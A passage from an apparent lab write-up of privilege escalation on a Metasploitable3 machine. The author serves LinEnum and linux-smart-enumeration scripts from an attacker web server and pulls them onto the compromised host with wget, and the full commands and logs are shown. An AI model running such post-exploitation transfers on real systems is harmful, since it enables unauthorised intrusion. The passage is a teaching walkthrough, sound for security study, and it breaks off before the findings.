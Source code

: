 ## Privilege Escalation

### From boba_fett --> root

In order to gain full root access, further recon is required to find ways in which we can further escalate our current privileges. I usually run the post exploitation scripts such as `LinEnum.sh` and `linux-smart-enumeration` script to help automate this stage. First, I need to transfer these scripts to the compromised server and executed them. I will setup a webserver on the attacker machine and use wget to download the files to a location so i can execute them

```
root@cyb3r:/opt/LinEnum# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
192.168.4.132 - - [15/Dec/2019 12:24:25] "GET /LinEnum.sh HTTP/1.1" 200 -

root@cyb3r:/opt/linux-smart-enumeration# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
192.168.4.132 - - [15/Dec/2019 12:24:58] "GET /lse.sh HTTP/1.1" 200 -
```

Using wget to download the files:

```
boba_fett@metasploitable3-ub1404:/var/tmp$ wget http://192.168.4.129/LinEnum.sh
wget http://192.168.4.129/LinEnum.sh
--2019-12-15 12:24:25--  http://192.168.4.129/LinEnum.sh
Connecting to 192.168.4.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 45650 (45K) [text/x-sh]
Saving to: 'LinEnum.sh'

     0K .......... .......... .......... .......... ....      100% 1.04M=0.04s

2019-12-15 12:24:25 (1.04 MB/s) - 'LinEnum.sh' saved [45650/45650]

boba_fett@metasploitable3-ub1404:/var/tmp$ wget http://192.168.4.129/lse.sh
wget http://192.168.4.129/lse.sh
--2019-12-15 12:24:58--  http://192.168.4.129/lse.sh
Connecting to 192.168.4.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 31736 (31K) [text/x-sh]
Saving to: 'lse.sh'

     0K .......... .......... ..........                      100% 20.2M=0.002s

2019-12-15 12:24:58 (20.2 MB/s) - 'lse.sh' saved [31736/31736]

boba_fett@metasploitable3-ub1404:/var/tmp$
```

After running the enumeration scripts, are few things popped out for me:
